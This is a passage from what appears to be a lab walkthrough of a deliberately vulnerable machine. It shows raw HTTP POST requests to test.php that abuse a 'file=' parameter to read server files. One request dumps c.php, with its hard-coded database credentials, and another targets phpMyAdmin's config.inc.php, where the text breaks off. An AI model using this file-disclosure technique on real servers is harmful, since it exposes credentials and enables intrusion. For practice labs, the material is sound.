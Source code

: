 ### c.php

```bash
POST /test.php HTTP/1.1
Host: 192.168.70.46
Content-Length: 10
Pragma: no-cache
Cache-Control: no-cache
Origin: http://192.168.70.46
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.70.46/test.php
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=9d1gbt6tl01gh301ffnjffgn07
Connection: keep-alive

file=c.php
```



```bash
<?php
#header( 'Z-Powered-By:its chutiyapa xD' );
header('X-Frame-Options: SAMEORIGIN');
header( 'Server:testing only' );
header( 'X-Powered-By:testing only' );

ini_set( 'session.cookie_httponly', 1 );

$conn = mysqli_connect("127.0.0.1","billu","b0x_billu","ica_lab");

// Check connection
if (mysqli_connect_errno())
  {
  echo "connection failed ->  " . mysqli_connect_error();
  }

?>
```

> billu / b0x_billu

### config.inc.php

> phpmy/config.inc.php

```bash
POST /test.php HTTP/1.1
Host: 192.168.70.46
Content-Length: 25
Pragma: no-cache
Cache-Control: no-cache
Origin: http://192.168.70.46
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.70.46/test.php
Accept-Encoding: gzip, deflate, br
```